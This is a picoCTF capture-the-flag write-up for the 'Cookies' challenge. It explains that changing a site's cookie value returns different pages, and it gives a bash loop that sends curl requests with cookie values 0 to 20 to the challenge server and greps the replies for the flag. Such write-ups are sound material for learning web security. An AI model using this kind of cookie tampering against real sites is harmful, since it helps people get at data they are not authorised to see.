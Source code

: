 # Cookies

Looking at the website provided, if we try and enter an arbitrary input, it would prompt us that the input is invalid. However, if we use the placeholder text `snickerdoodle` we see that it gives us a page where the text is set to `I love snickerdoodle cookies!`.

## Method
Looking at the cookie set after entering `snickerdoodle` we see that it has a value of 0. By testing around and changing the cookie value to `1`, `2` etc. we see that it outputs a different name. My guess is that a certain cookie value will return us the flag.

### Script
The scipt has a bash for loop to loop through `1-20` and curl to send the requests. Then we send the post requests and grep the output for `pico`. And we get our flag!

```sh
for name in {0..20} ;do curl -i -s -k -X $'GET' \
    -H $'Host: mercury.picoctf.net:6418' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'name='$name'' \
    $'http://mercury.picoctf.net:6418/check' | grep pico ;done
```
